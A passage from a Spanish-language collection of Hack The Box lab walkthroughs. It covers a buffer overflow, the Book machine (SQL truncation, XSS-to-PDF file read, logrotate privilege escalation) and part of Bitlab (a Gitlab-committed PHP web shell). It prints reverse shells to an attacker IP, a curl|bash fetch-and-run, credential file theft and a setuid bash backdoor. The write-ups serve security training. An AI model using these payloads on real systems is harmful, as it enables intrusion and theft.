\ExtensionTok{Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el ejecutable con esta cadena

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Please}\NormalTok{ enter your super secret 4 digit PIN code to login:}
\NormalTok{[$] }\ExtensionTok{0021}
\NormalTok{[$] }\ExtensionTok{PIN}\NormalTok{ is correct, access granted!}
\ExtensionTok{Please}\NormalTok{ enter the amount of e-coins you would like to transfer:}
\NormalTok{[$] }\ExtensionTok{Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A}
\NormalTok{[$] }\ExtensionTok{Transfering} \VariableTok{$Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A}\NormalTok{ using our e-coin transfer application.}
\NormalTok{[$] }\ExtensionTok{Executing}\NormalTok{ e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A}
\end{Highlighting}
\end{Shaded}
\item
  Miramos el offset

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/share/metasploit-framework/tools/exploit/pattern_create.rb}\NormalTok{ -q 0Ab1}
\CommentTok{#Output}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Exact match at offset 32}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el binario con el input malicioso

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -c }\StringTok{'print "A"*32 + "C:\textbackslash{}Users\textbackslash{}Cortin\textbackslash{}AppData\textbackslash{}Local\textbackslash{}Temp\textbackslash{}nc.exe -e cmd 10.10.17.51 443"'}
\CommentTok{#Output}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC}\NormalTok{:\textbackslash{}Users\textbackslash{}Cortin\textbackslash{}AppData\textbackslash{}Local\textbackslash{}Temp\textbackslash{}nc.exe -e cmd 10.10.17.51 443}

\ExtensionTok{Please}\NormalTok{ enter your super secret 4 digit PIN code to login:}
\NormalTok{[$] }\ExtensionTok{0021}
\NormalTok{[$] }\ExtensionTok{PIN}\NormalTok{ is correct, access granted!}
\ExtensionTok{Please}\NormalTok{ enter the amount of e-coins you would like to transfer:}
\NormalTok{[$] }\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC}\NormalTok{:\textbackslash{}Users\textbackslash{}Cortin\textbackslash{}AppData\textbackslash{}Local\textbackslash{}Temp\textbackslash{}nc.exe -e cmd 10.10.17.51 443}
\NormalTok{[$] }\ExtensionTok{Transfering} \VariableTok{$AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC}\NormalTok{:\textbackslash{}Users\textbackslash{}Cortin\textbackslash{}AppData\textbackslash{}Local\textbackslash{}Temp\textbackslash{}nc.exe -e cmd 10.10.17.51 443 using our e-coin transfer application.}
\NormalTok{[$] }\ExtensionTok{Executing}\NormalTok{ e-coin transfer tool: C:\textbackslash{}Users\textbackslash{}Cortin\textbackslash{}AppData\textbackslash{}Local\textbackslash{}Temp\textbackslash{}nc.exe -e cmd 10.10.17.51 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya vemos que hemos ganado acceso al systema como \texttt{nt\ authority\textbackslash{}system} y podemos ver la flag.

\hypertarget{book}{%
\chapter*{Book}\label{book}}
\addcontentsline{toc}{chapter}{Book}

\hypertarget{introduccion-47}{%
\section*{Introduccion}\label{introduccion-47}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Book.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=0vmm0I644fs}{\includegraphics{https://img.youtube.com/vi/0vmm0I644fs/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-47}{%
\section*{Enumeracion}\label{enumeracion-47}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-47}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-47}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-47}{%
\subsubsection*{Ping}\label{ping-47}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.176}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-47}{%
\subsubsection*{Nmap}\label{nmap-47}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.176}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.176 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,443,445,3306 10.10.10.176 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Direct connection & credenciales o id\_rsa\tabularnewline
80 & http & Web Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-30}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-30}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-37}{%
\subsubsection*{Whatweb}\label{whatweb-37}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.176}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.29 Ubuntu que usa PHP 7.3.4. Vemos un password field que nos hace pensar que estamos
en un panel de inicio de session.

\hypertarget{mini-fuzzing-con-http-enum}{%
\subsubsection*{Mini fuzzing con http-enum}\label{mini-fuzzing-con-http-enum}}
\addcontentsline{toc}{subsubsection}{Mini fuzzing con http-enum}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.176 -oN webScan}
\end{Highlighting}
\end{Shaded}

Vemos un directorio \texttt{/admin}

\hypertarget{checkear-la-web-14}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-14}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.176}, Vemos una pagina que nos permite loggear o registrar. En la pagina \texttt{http://10.10.10.176/admin} tenemos un
otro panel de inicio de session para el panel de administracion.

Empezamos por crear una cuenta
y nos loggeamos.

Aqui vemos una biblioteca. Podemos

\begin{itemize}
\tightlist
\item
  ver libros en pdf
\item
  añadir un libro a la coleccion
\item
  contactar el administrator
\end{itemize}

Haciendo Hovering a las imagenes de la pagina \texttt{books.php}, vemos que hay un link a \texttt{http://10.10.10.176/download.php?file=1}

Miramos con curl si es vulnerable a LFI

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.176/download.php?file=/etc/passwd"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.176/download.php?file=/etc/passwd -L"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.176/download.php?file=../../../../../../etc/passwd"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.176/download.php?file=../../../../../../etc/passwd -L"}
\end{Highlighting}
\end{Shaded}

No parece ser vulnerable en este caso.

En las paginas \texttt{/collections.php} y \texttt{/contact.php} vemos que las request necessitan ser validadas por otro usuario. Miramos si es vulnerable a un XSS

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

y ponemos en los inputs de la web

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{<}\ExtensionTok{script}\NormalTok{ src=}\StringTok{"http://10.10.17.51/book"}\NormalTok{ /}\OperatorTok{>}
\OperatorTok{<}\ExtensionTok{script}\NormalTok{ src=}\StringTok{"http://10.10.17.51/title"}\NormalTok{ /}\OperatorTok{>}
\OperatorTok{<}\ExtensionTok{script}\NormalTok{ src=}\StringTok{"http://10.10.17.51/message"}\NormalTok{ /}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

No parece ser vulnerable a XSS tampoco.

Miramos si podemos burlar el login. Nos desloggeamos y miramos lo que podemos hacer desde el panel de inicio de session.
Intentamos en el panel login poner usuarios por defecto.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{email}\NormalTok{: admin@book.htb}
\ExtensionTok{password}\NormalTok{: admin}
\end{Highlighting}
\end{Shaded}

Vemos que el usuario admin existe pero la contraseña no es la buena.

Miramos si el panel de inicio de session es vulnerable a un \textbf{SQLI}. lo hacemos desde burpsuite.

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{email=}\NormalTok{admin}\ExtensionTok{@book.htb}\StringTok{'&password=admin}
\StringTok{email=admin@book.htb'}\NormalTok{ and 1=1-- -}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin}
\VariableTok{email=}\NormalTok{admin}\ExtensionTok{@book.htb}\StringTok{' and 1=1#&password=admin}
\StringTok{email=admin@book.htb'}\NormalTok{ or sleep(5)}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin}
\end{Highlighting}
\end{Shaded}

No parece que este panel sea vulnerable a \textbf{SQLI}.

Probamos si es vulnerable a \textbf{Type Juggling}.

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{email[]=}\NormalTok{admin}\ExtensionTok{@book.htb}\KeywordTok{&}\ExtensionTok{password}\NormalTok{[]=admin}
\end{Highlighting}
\end{Shaded}

Tampoco parece ser vulnerable a un \textbf{Type Juggling}

\hypertarget{vulnerability-assessment-34}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-34}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{sql-truncate}{%
\subsection*{SQL Truncate}\label{sql-truncate}}
\addcontentsline{toc}{subsection}{SQL Truncate}

\textbf{SQL Truncate} es una vulnerabilidad que viene del echo que un input de usuario no esta sanitizado en terminos de \emph{length} y que
la columna corespondiente en el SQL esta definida con un tamaño. Esta vulnerabilidad permite al atacante modificar el comportamiento
de la peticion sql. En un caso como este, y mas precisamente en el panel de registo, en vez de crear un nuevo usuario, podriamos como
atacante cambiar la contraseña de este mismo usuario superando el tamaño definido en SQL.

Si el tamaño definido por la columna \texttt{email} es \texttt{varchar(16)}, si como atacante ponemos el email \texttt{admin@book.htb} con espacios al final mas
cualquier carater y que en este caso excede este tamaño de 16, podriamos cambiar su contraseña.

Si en burpsuite creamos un usuario con la data

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{name=}\NormalTok{admin}\KeywordTok{&}\VariableTok{email=}\NormalTok{admin}\ExtensionTok{@book.htb}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin123}
\end{Highlighting}
\end{Shaded}

la respuesta al lado del servidor nos dice que el usuario ya existe. pero si excedemos el tamaño definido en la columna de la tabla SQL con
una peticion

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{name=}\NormalTok{admin}\KeywordTok{&}\VariableTok{email=}\NormalTok{admin}\ExtensionTok{@book.htb}\NormalTok{               .}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin123}
\end{Highlighting}
\end{Shaded}

la respuesta es un 302 Found.

Si nos connectamos ahora como \texttt{admin} y con la contraseña \texttt{admin123}, podemos entrar como el usuario admin.
En este caso vamos directamente a la url \texttt{http://10.10.10.176/admin} para entrar en el panel de administracion de la web.

Aqui Vemos que podemos ver los usuarios registrados, los mensajes enviados por los usuarios los feedbacks y la collections.

Aqui nos llama la atencion el \texttt{/admin/collections.php} porque hay un link a un pdf de la collectiones de la web.
Si nos acordamos bien, el contenido es muy parecido a las entradas que teniamos como usuario normal a la hora de crear una nueva
collection.

Si nos connectamos en una nueva pagina web al panel normal (el donde podiamos crear una nueva collection) y creamos una nuevamente
con

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{title}\NormalTok{: test}
\ExtensionTok{author}\NormalTok{: test}
\ExtensionTok{un}\NormalTok{ fichero txt en el file upload}
\end{Highlighting}
\end{Shaded}

Podemos ver que esta collection a sido creada y aparece en el pdf de la collections de panel de administracion y nos reporta la data title y author.

Buscamos en internet si existe un html 2 pdf exploit.

\hypertarget{html2pdf-exploit}{%
\subsection*{html2pdf exploit}\label{html2pdf-exploit}}
\addcontentsline{toc}{subsection}{html2pdf exploit}

Buscamos por \texttt{html\ 2\ pdf\ exploit}, no vemos gran cosa. Cambiamos la busqueda por vulnerabilidades conocidas como RCE LFI XSS
y encontramos un un \href{https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/}{Local File Read via XSS in Dynamically Generated PDF}

Aqui vemos que con la inclusion de un \texttt{\textless{}script\textgreater{}x=new\ XMLHttpRequest;x.onload=function()\{document.write(this.responseText)\};x.open("GET","file:///etc/passwd");x.send();\textless{}/script\textgreater{}}
podriamos ejecutar un LFI.

Si lo ponemos en el input Title y author, podemos ver el \texttt{/etc/passwd} de la maquina en el pdf generado.

En este caso vemos que hay un usuario \texttt{Reader} que tiene una bash. Miramos si podemos leer su \texttt{id\_rsa}

\texttt{\textless{}script\textgreater{}x=new\ XMLHttpRequest;x.onload=function()\{document.write(this.responseText)\};x.open("GET","file:///home/reader/.ssh/id\_rsa");x.send();\textless{}/script\textgreater{}}

Ya podemos ver su llave privada y connectarnos por ssh.

\hypertarget{vuln-exploit-gaining-access-34}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-34}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conneccion-por-ssh-con-id_rsa}{%
\subsection*{Conneccion por ssh con id\_rsa}\label{conneccion-por-ssh-con-id_rsa}}
\addcontentsline{toc}{subsection}{Conneccion por ssh con id\_rsa}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Copiamos el contenido de la id\_rsa del pdf en un fichero id\_rsa en nuestra maquina.
\item
  Le ponemos los derechos necesarios

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{chmod}\NormalTok{ 600 id_rsa}
\end{Highlighting}
\end{Shaded}
\item
  Nos connectamos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ reader@10.10.10.176 -i id_rsa}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Y ya estamos connectados como el usuario \textbf{reader} y podemos leer la flag.

\hypertarget{privilege-escalation-31}{%
\section*{Privilege Escalation}\label{privilege-escalation-31}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-40}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-40}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ backups}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{cat}\NormalTok{ access.log}
\FunctionTok{cat}\NormalTok{ access.log.1}
\end{Highlighting}
\end{Shaded}

Aqui no tenemos mucha cosa que podemos hacer. Uzamos \textbf{pspy} para investigar el systema.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64}
\ExtensionTok{./pspy64}
\end{Highlighting}
\end{Shaded}

pspy nos muestra que hay un \texttt{/usr/sbin/logrote} que se ejecuta a interval regular de tiempo.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{uname}\NormalTok{ -a}
\ExtensionTok{logrotate}\NormalTok{ -v}
\end{Highlighting}
\end{Shaded}

En la maquina de atacante buscamos un exploit logrotate para escalada de privilegios

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ logrot}
\ExtensionTok{searchsploit}\NormalTok{ -m 47466}
\FunctionTok{mv}\NormalTok{ 47466.c logrotten.c}
\end{Highlighting}
\end{Shaded}

Copiamos el contenido en un fichero de la maquina victima y le quitamos todos los commentarios.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{gcc}\NormalTok{ logrotten.c -o logrotten}
\end{Highlighting}
\end{Shaded}

Creamos un fichero payloadfile malicioso

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ payloadfile}


\CommentTok{#!/bin/bash}

\ExtensionTok{php}\NormalTok{ -r }\StringTok{'$sock=fsockopen("10.10.17.51",443);exec("/bin/sh -i <&3 >&3 2>&3");'}
\end{Highlighting}
\end{Shaded}

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}

Lanzamos el script

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{logrotten}\NormalTok{ -p payloadfile /home/reader/backups/access.log}
\end{Highlighting}
\end{Shaded}

Nos conectamos nuevamente por ssh a la maquina victima para modificar el fichero \texttt{access.log}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ reader@10.10.10.176 -i id_rsa}

\BuiltInTok{echo} \StringTok{"s4vitar"} \OperatorTok{>}\NormalTok{ backups/access.log}
\end{Highlighting}
\end{Shaded}

Esperamos un poco y ganamos accesso al systema. Pero se desconecta bastante rapido. Volvemos nuevamente a lanzar el script
y rapidamente colamos un \texttt{chmod\ 4755\ /bin/bash} de seguida que ganamos accesso al systema antes que se desconnecte.

Desde una shell ssh ya podemos lanzar un \texttt{bash\ -p} y leer el fichero \texttt{root.txt}

\hypertarget{bitlab}{%
\chapter*{Bitlab}\label{bitlab}}
\addcontentsline{toc}{chapter}{Bitlab}

\hypertarget{introduccion-48}{%
\section*{Introduccion}\label{introduccion-48}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Bitlab.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=sZFrgbRjOfg}{\includegraphics{https://img.youtube.com/vi/sZFrgbRjOfg/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-48}{%
\section*{Enumeracion}\label{enumeracion-48}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-48}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-48}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-48}{%
\subsubsection*{Ping}\label{ping-48}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.114}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-48}{%
\subsubsection*{Nmap}\label{nmap-48}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.114}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.114 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80 10.10.10.114 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & tcp & Conneccion directa & creds\tabularnewline
80 & tcp & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-31}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-31}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-38}{%
\subsubsection*{Whatweb}\label{whatweb-38}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.114}
\end{Highlighting}
\end{Shaded}

Hay una redirection hacia la routa \texttt{http://10.10.10.114/users\_sign\_in} y vemos un Cookie \texttt{\_gitlab\_session}.
Vemos que esta hosteada sobre un NGINX.

\hypertarget{checkear-la-web-15}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-15}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.114}, Vemos la pagina de inicio de session de Gitlab pero no podemos registrarnos. Solo nos podemos loggear.
Intentamos con loggins por defecto pero no llegamos a conectarnos.
Como la enumeracion con \textbf{NMAP} nos a mostrado un \texttt{robots.txt}, miramos lo que hay por esta routa. Vemos una serie de routas ocultadas. Intentamos ver unas
cuantas y la unica que nos muestra algo interesante es la routa \texttt{http://10.10.10.114/help} donde vemos un fichero \texttt{bookmark.html}.

Hay una serie de links y haciendo \emph{Hovering} vemos que el link Gitlab Login nos sale un script un javascript. Analyzando el codigo fuente, vemos una declaracion
de variable en hexadecimal. La copiamos y la decodificamos para ver lo que es.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"var _0x4b18=[&quot;\textbackslash{}x76\textbackslash{}x61\textbackslash{}x6C\textbackslash{}x75\textbackslash{}x65&quot;,&quot;\textbackslash{}x75\textbackslash{}x73\textbackslash{}x65\textbackslash{}x72\textbackslash{}x5F\textbackslash{}x6C\textbackslash{}x6F\textbackslash{}x67\textbackslash{}x69\textbackslash{}x6E&quot;,&quot;\textbackslash{}x67\textbackslash{}x65\textbackslash{}x74\textbackslash{}x45\textbackslash{}x6C\textbackslash{}x65\textbackslash{}x6D\textbackslash{}x65\textbackslash{}x6E\textbackslash{}x74\textbackslash{}x42\textbackslash{}x79\textbackslash{}x49\textbackslash{}x64}
\StringTok{&quot;,&quot;\textbackslash{}x63\textbackslash{}x6C\textbackslash{}x61\textbackslash{}x76\textbackslash{}x65&quot;,&quot;\textbackslash{}x75\textbackslash{}x73\textbackslash{}x65\textbackslash{}x72\textbackslash{}x5F\textbackslash{}x70\textbackslash{}x61\textbackslash{}x73\textbackslash{}x73\textbackslash{}x77\textbackslash{}x6F\textbackslash{}x72\textbackslash{}x64&quot;,&quot;\textbackslash{}x31\textbackslash{}x31\textbackslash{}x64\textbackslash{}x65\textbackslash{}x73\textbackslash{}x30\textbackslash{}x30\textbackslash{}x38\textbackslash{}x31\textbackslash{}x78&quot;]"} \KeywordTok{|} \FunctionTok{sed}\NormalTok{ s/}\DataTypeTok{\textbackslash{}&}\NormalTok{quot/}\DataTypeTok{\textbackslash{}'}\NormalTok{/g}
\CommentTok{#Output}
\ExtensionTok{var}\NormalTok{ _0x4b18=[}\StringTok{';value'}\KeywordTok{;}\NormalTok{,}\StringTok{';user_login'}\NormalTok{;,}\StringTok{';getElementById'}\NormalTok{;,}\StringTok{';clave'}\NormalTok{;,}\StringTok{';user_password'}\NormalTok{;,}\StringTok{';11des0081x'}\NormalTok{;]}
\end{Highlighting}
\end{Shaded}

Como tenemos un usuario y una contraseña nos connectamos al panel de inicio.

\hypertarget{vulnerability-assessment-35}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-35}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{gitlab-1}{%
\subsection*{Gitlab}\label{gitlab-1}}
\addcontentsline{toc}{subsection}{Gitlab}

Como hemos podido connectarnos, analyzamos el contenido del gitlab.
Vemos que hay 2 repositorios. En el menu Activity vemos cosas interessante como una especie de \textbf{CI/CD} que permite
tras una merge request updatear el proyecto \emph{Profile} automaticamente. Ademas la routa \texttt{/profile} estaba ocultada por el
\textbf{robots.txt}.

En el menu Snippets vemos un codigo php

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
\KeywordTok{$db_connection}\NormalTok{ = }\FunctionTok{pg_connect}\OtherTok{(}\StringTok{"host=localhost dbname=profiles user=profiles password=profiles"}\OtherTok{);}
\KeywordTok{$result}\NormalTok{ = }\FunctionTok{pg_query}\OtherTok{(}\KeywordTok{$db_connection}\OtherTok{,} \StringTok{"SELECT * FROM profiles"}\OtherTok{);}
\end{Highlighting}
\end{Shaded}

\hypertarget{subimos-un-archivo-php-que-nos-permite-ejecutar-comandos}{%
\subsubsection*{Subimos un archivo php que nos permite ejecutar comandos}\label{subimos-un-archivo-php-que-nos-permite-ejecutar-comandos}}
\addcontentsline{toc}{subsubsection}{Subimos un archivo php que nos permite ejecutar comandos}

Creamos un archivo \texttt{s4vishell.php} en el proyecto profile.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \KeywordTok{echo} \StringTok{'<pre>'}\NormalTok{ . }\FunctionTok{shell_exec}\OtherTok{(}\KeywordTok{$_REQUEST}\OtherTok{[}\StringTok{'cmd'}\OtherTok{])}\NormalTok{ . }\StringTok{'</pre>'}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

Hacemos un commit con este fichero y se nos crea una rama diferente de la \textbf{master} lo que significa que tenemos que crear una \textbf{Merge request}.
Una vez esta \textbf{Merge Request} creada, Vemos que la podemos acceptar sin problemas porque el proyecto nos apartenece.

Si vamos a la url \texttt{http://10.10.10.114/profile/s4vishell.php?cmd=whoami} Vemos que tenemos possibilidad de ejecutar comandos a nivel de systema.

\hypertarget{vuln-exploit-gaining-access-35}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-35}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-la-s4vishell.php}{%
\subsection*{Ganando accesso con la s4vishell.php}\label{ganando-accesso-con-la-s4vishell.php}}
\addcontentsline{toc}{subsection}{Ganando accesso con la s4vishell.php}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un archivo index.html

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.17.51/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\item
  Creamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Cambiamos la url por

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.114/profile/s4vishell.php?cmd=curl 10.10.17.51}\KeywordTok{|}\FunctionTok{bash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya hemos ganado accesso al systema.

\hypertarget{tratamiento-de-la-tty-26}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-26}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{user-pivoting-5}{%
\subsection*{User Pivoting}\label{user-pivoting-5}}
\addcontentsline{toc}{subsection}{User Pivoting}

Como el \textbf{user.txt} del usuario \textbf{clave} no es permitido a nivel de lectura por el usuario \textbf{www-data} tenemos que convertirnos en el usuario
\textbf{clave}.

Aprovechamos el snippet encontrado para ver lo que hay en la base de datos \textbf{postgresql}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{which}\NormalTok{ psql}
\FunctionTok{which}\NormalTok{ php}
\end{Highlighting}
\end{Shaded}

